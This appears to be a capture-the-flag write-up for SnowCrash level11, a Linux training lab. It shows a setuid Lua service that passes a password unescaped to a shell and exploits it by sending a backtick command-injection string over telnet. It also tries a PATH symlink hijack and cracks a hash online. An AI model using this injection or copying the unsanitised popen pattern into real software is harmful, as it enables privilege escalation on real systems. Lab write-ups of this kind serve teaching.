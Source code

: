 # Start

```sh
level11@SnowCrash:~$ ll
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*
```
> effective user flag11

```lua
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
> with https://crackstation.net/ the hash == NotSoEasy

`#!/usr/bin/env lua` is interesting, the lua bin is serach in the PATH of #!/usr/bin/env

```sh
level11@SnowCrash:~$ ln -s /bin/getflag /tmp/lua
level11@SnowCrash:~$ export PATH="/tmp:$PATH"
level11@SnowCrash:~$ ./level11.lua 
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
>don't work because not the same env

```sh
level11@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level11@SnowCrash:~$ ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```
> I try to exec the `echo` in the `hash` function, to interpret variable with rights. So I have to find a way to get in

```sh
level11@SnowCrash:~$ netstat -tln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN     
<tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN     >
tcp6       0      0 :::4646                 :::*                    LISTEN     
tcp6       0      0 :::4747                 :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::4242                 :::*                    LISTEN 
```
```sh
level11@SnowCrash:~$ netstat -tl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 *:4242                  *:*                     LISTEN     
<tcp        0      0 localhost:pcrd          *:*                     LISTEN       >
tcp6       0      0 [::]:4646               [::]:*                  LISTEN     
tcp6       0      0 [::]:4747               [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:4242               [::]:*                  LISTEN 
```

https://www.gabinhocity.eu/wp-content/uploads/2015/10/liste-des-ports-TCP-et-UDP.pdf

https://www.crc.id.au/pcrd-pcr1000-on-linux/

http://www.penguintutor.com/linux/services-tcp-udp-port-numbers-quickreference

`pcrd		5151/tcp			# PCR-1000 Daemon`

```sh
level11@SnowCrash:~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: NotSoEasy
Erf nope..
Connection closed by foreign host.
```
> Same response as the lua script

## Exploit

```sh
level11@SnowCrash:~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag` > /tmp/css
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/css
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```